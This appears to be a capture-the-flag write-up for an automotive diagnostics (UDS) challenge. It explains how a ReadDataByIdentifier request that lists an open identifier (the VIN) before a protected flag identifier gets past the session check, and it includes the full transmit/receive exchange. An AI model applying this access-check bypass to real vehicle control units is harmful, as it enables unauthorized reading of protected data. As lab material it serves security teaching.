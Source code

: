 ## Level 4 - ReadDataByIdentifier Security Bypass
This level protects the flag DataIdentifier through DiagnosticSession/SecurityAccess flow from before; however, the
SecurityAccess function does not contain a password and will always return InvalidKey. The bug in this level is that
the ReadDataByIdentifier spec allows multiple DataIdentifiers to be requested at once, returning all requested values.
The check for DiagnosticSession only checks the first submitted DataIdentifier for the flag DataIdentifier before 
entering the process loop, allowing the attacker to submit an open value (VIN) followed by the flag.

Example session
```shell
# read data by identifier 0x1337 (Flag)
TX: 22 1337
# read data by identifier - Negative Response - Conditions Not Correct
RX: 7f 2222

# read data by identifier 0xf190 (VIN)
TX: 22 f190
# read data by identifier - Positive Response
RX: 62 f190415452454449533133337

#DiagnosticSession - Start 0x02 - Negative Response - Security Access Denied
TX: 10 02
RX: 7f 1033

#SecurityAccess - RequestSeed - Positive Response
TX: 27 01
RX: 67 01ffffffff

#SecurityAccess - Submit Key - Negative Response - Invalid Key
TX: 27 0201020304
RX: 7f 2735

#SecurityAccess - Submit Key - Negative Response - Invalid Key
TX: 27 0201020305
RX: 7f 2735

#SecurityAccess - Submit Key - Negative Response - Invalid Key
TX: 27 0201020306
RX: 7f 2735

#ReadDataByIdentifier - VIN (0xf190) + Flag (0x1337) - PositiveResponse - Both values returned
TX: 22 f1901337
RX: 62 f19041545245444953313333371337692d73776561722d692d636865636b65642d7468617421
```